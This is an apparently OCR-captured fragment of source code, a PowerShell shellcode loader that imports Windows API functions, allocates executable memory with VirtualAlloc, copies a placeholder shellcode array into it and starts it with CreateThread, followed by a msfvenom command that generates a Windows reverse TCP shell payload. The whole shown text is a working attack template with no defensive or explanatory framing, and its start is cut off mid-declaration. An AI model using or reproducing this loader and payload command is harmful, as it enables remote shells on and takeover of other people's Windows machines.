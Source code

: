 # 

# [DllImport("kernel32.dll")]

# public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# 

# [DllImport("msvcrt.dll")]

# public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
```

# 

# $var2 = 

#   Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

# 

# [Byte[]];

# [Byte[]]$var1 = <place your shellcode here>;

# 

# $size = 0x1000;

# 

# if ($var1.Length -gt 0x1000) {$size = $var1.Length};

# 

# $x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

# 

# for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

# 

# $var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

# 

# payload generation:

# ```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f powershell -v sc
```
